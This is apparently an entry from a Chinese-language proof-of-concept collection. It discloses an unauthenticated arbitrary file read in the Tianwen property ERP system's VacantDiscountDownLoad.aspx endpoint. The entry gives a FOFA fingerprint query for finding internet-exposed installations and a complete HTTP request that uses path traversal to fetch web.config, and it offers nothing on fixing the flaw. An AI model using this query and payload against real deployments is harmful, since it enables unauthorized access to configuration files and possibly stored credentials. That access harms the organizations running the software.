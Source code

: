# 天问物业ERP系统VacantDiscountDownLoad存在任意文件读取漏洞

天问物业ERP系统` /HM/M_main/InformationManage/VacantDiscountDownLoad.aspx `接口处存在任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```yaml
body="天问物业ERP系统" || body="国家版权局软著登字第1205328号" || body="/HM/M_Main/frame/sso.aspx"
```

## poc

```java
GET /HM/M_main/InformationManage/VacantDiscountDownLoad.aspx?VacantDiscountFile=../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

